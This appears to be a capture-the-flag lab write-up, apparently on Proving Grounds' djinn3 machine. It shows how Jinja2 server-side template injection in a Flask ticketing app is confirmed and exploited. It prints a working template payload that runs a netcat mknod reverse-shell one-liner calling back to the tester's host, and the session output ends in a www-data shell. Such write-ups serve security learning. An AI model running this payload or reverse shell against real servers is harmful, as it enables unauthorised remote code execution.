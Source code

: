 ```yaml
---
layout: default
title: SSTI
parent: Web Exploits
nav_order: 7
---
```


# Server Side Template Injection (SSTI)

---

## Jinja2 Template Injection

Attempt to use Netcat to authenticate on port 31337 with the default creds \*guest:guest"

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ nc -nv 192.168.158.102 31337
(UNKNOWN) [192.168.158.102] 31337 (?) open
username> guest
password> guest

Welcome to our own ticketing system. This application is still under
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> help

        help        Show this menu
        update      Update the ticketing software
        open        Open a new ticket
        close       Close an existing ticket
        exit        Exit

>
```

We have the ability to open tickets

![test](../../../../assets/images/ctfs/proving_grounds/djinn3/test.png)

Since this is a Flask Python server it is likely using Jinja to render the HTML.

Let's test for Jinja SSTI (Server Side Template Injection)

![test2](../../../../assets/images/ctfs/proving_grounds/djinn3/test2.png)

![seven](../../../../assets/images/ctfs/proving_grounds/djinn3/seven.png)

Next let's test if we get Jinja specific SSTI by trying to display the _id_ command

![test3](../../../../assets/images/ctfs/proving_grounds/djinn3/test3.png)

![ssti](../../../../assets/images/ctfs/proving_grounds/djinn3/ssti.png)

Our SSTI test worked so we can proceed with attempting to exploit.

Use Revshellgen to generate a _nc-mknod_ reverseh shell one-liner

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/djinn3]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

```

{{config.__class__.__init__.__globals__['os'].popen('rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l').read()}}

Send the payload to the target using the open ticket Jinja2 SSTI exploit

![test4](../../../../assets/images/ctfs/proving_grounds/djinn3/test4.png)

Click the link of the created ticket and we get a reverse shell.

![link2](../../../../assets/images/ctfs/proving_grounds/djinn3/link2.png)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.158.102] 45698
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
